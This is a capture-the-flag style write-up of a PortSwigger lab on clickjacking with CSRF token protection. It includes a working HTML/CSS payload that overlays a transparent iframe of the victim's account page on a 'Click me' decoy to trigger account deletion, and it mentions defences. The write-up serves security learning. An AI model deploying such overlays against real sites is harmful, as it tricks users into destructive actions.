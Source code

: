 # Clickjacking - Basic clickjacking with CSRF token protection

## 📌 Lab Details
- **Title**: Basic clickjacking with CSRF token protection
- **Difficulty**: Apprentice
- **Category**: Clickjacking
- **Lab URL**: https://portswigger.net/academy/labs/launch/ccfdc81094e272982bb5995e349d1fee4cb10179392ed6b49586fed5837006a0?referrer=%2fweb-security%2fclickjacking%2flab-basic-csrf-protected

## 🔍 Summary
This lab demonstrates **Clickjacking** by overlaying a transparent iframe containing the “Delete account” button over a deceptive “Click me” element on a decoy page, tricking the victim into deleting their account.

## 🛠 Steps to Solve
1. Log in to the given account.
2. Inject the payload on the **Exploit** server:
   ```sh
   <style>
    iframe {
            position:relative;
            width:1250;
            height:600;
            opacity:0.0000001;
            z-index: 2;
   }
    div {
            position:absolute;
            top:540;
            left:90;
            z-index:1;
   }
   </style>
   <div>Click me</div>
   <iframe src="https://0a2d00bd03acfe5380dbf974008e00ef.web-security-academy.net/my-account"></iframe>
   ```
3. Adjust the values of the template to align the `Click me` button with the `delete account` button.
4. Deliver exploit to the victim to complete the lab.
   
## 📖 Key Takeaways
- **Clickjacking leverages transparent** iframes to trick users into clicking hidden actions.
- Proper alignment and opacity adjustments are critical for a successful attack.
- Defenses like `X-Frame-Options` or CSP `frame-ancestors` can mitigate such attacks.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/5c4bcc35-691f-4802-83e0-666ac710897b)
![image](https://github.com/user-attachments/assets/e9842567-440b-4bab-9064-7e77d3e084d6)
![image](https://github.com/user-attachments/assets/ac53888c-9719-49e1-bd51-ab0ddff20f0b)
